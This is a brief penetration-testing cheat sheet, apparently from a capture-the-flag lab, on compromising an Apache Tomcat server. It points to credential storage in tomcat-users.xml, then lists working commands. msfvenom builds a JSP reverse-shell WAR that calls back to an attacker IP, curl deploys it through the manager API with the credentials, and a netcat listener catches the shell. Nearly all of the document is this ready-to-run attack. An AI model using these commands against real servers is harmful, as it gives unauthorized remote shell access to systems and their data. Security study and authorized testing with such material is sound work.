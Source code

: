 ## Username and password

- Written in ```tomcat-users.xml```. This works for me : ```/usr/share/tomcat9/etc/tomcat-users.xml```, but if not, try to install it with the version needed, and then see where it's stored.


## Upload reverse shell

- The best part of tomcat server is that the host-manager gives you facility to create, delete, and manage virtual hosts within Tomcat remotely via curl command through command line if you have creds.

- Create Reverse Shell : ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.197 LPORT=1234 -f war > shell.war```

- Upload Reverse Shell : ```curl -u 'user':'pass' -T shell.war 'http://ip:port/manager/text/deploy?path=/my-shell'```

- List Deployed Shell : ```curl -u 'user':'pass' http://ip:port/manager/text/list```

- Start Netcat Listener

- Execute the deployed shell : ```curl -u 'user':'pass' http://ip:port/my-shell/```